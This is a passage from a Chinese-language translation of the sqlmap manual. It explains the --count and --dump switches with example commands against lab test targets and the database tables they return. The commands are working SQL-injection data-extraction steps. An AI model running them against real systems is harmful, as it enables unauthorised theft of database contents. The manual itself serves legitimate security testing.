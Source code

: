 ```
| ip       | text     |
| referer  | text     |
+----------+----------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
[...]
```

### 检索表的条目数

开关: `--count`

如果用户只想知道在转储所需的表之前的表中的条目数，他可以使用这个开关。

针对Microsoft SQL服务器目标的例子:

```
$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1"\
 --count -D testdb
[...]
Database: testdb
+----------------+---------+
| Table          | Entries |
+----------------+---------+
| dbo.users      | 4       |
| dbo.users_blob | 2       |
+----------------+---------+
```

### 把数据库表条目

开关和选项: `--dump`, `-C`, `-T`, `-D`, `--start`, `--stop`, `--first`, `--last`, `--pivot-column` 和 `--where`

当会话用户访问特定数据库的表时，可以转储表项。

这个功能依赖于选项`-T`来指定表名，或者选择`-D` 来指定数据库名称。如果提供了表名，但数据库名不是，则使用当前数据库名称。

针对Firebird目标的例子:

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/firebird/get_int.php?id=1"\
 --dump -T users
[...]
Database: Firebird_masterdb
Table: USERS
[4 entries]
+----+--------+------------+
| ID | NAME   | SURNAME    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+
```
